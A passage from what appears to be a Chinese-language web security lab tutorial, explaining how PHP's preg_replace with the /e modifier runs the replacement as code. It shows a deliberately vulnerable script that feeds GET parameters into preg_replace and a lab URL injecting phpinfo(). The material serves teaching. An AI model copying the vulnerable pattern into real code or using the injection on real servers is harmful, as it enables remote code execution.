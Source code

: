 [![](assets/1704850598-1c24b6da81e7d468e6b0a1ebaa1cf637.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/zO5OvNJDESkkkXbq.png)

### 2.1.7 Code injection Example 3

preg\_replace(pattern,replacement,subject)：搜索 subject 中匹配 pattern 的部分，以 replacement 进行替换；当 pattern 是/e 将会以 PHP 执行 replacement 中的代码。

```plain
<?php
   echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```

[http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer](http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer)  